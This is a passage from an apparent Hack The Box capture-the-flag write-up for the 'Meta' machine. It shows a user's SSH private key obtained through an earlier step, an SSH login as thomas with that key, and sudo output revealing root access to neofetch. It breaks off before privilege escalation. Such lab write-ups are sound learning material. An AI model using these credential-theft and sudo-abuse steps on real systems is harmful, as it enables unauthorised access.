 And sure enough about a minute later the file shows up and includes their private key.

```
total 8
drwxrwxrwt  2 root   root     80 Apr 17 22:34 .
drwxr-xr-x 16 root   root   3080 Apr 17 22:07 ..
-rw-r--r--  1 thomas thomas 2590 Apr 17 22:34 id_rsa
-rw-r--r--  1 thomas thomas    7 Apr 17 22:14 whoami
```

I copy the private key to a file on my system and ssh over as **thomas**:

`ssh -i id_rsa thomas@artcorp.htb`

```
The authenticity of host 'artcorp.htb (10.10.11.140)' can't be established.
ED25519 key fingerprint is SHA256:Y8C2lOecv5ZDp3I6M5zjDUYDVsc3p/pgjF9HVRPioqQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'artcorp.htb' (ED25519) to the list of known hosts.
Linux meta 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
thomas@meta:~$
```

I grab the **user.txt** flag and submit it on HTB.

Checking `sudo -l` shows us that thomas can run:

```
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
```

I wasn't sure what **neofetch** was so I read up on it:

```
Neofetch is a command-line system information tool written in bash 3.2+. Neofetch displays information about your operating system, software and hardware in an aesthetic and visually pleasing way.
```

I've watched some streamers on Twitch and I'm betting this, or another tool very similar to it, is how they add that extra info to their terminals whenever they open a new one.

![](images/meta3.png)

<br>
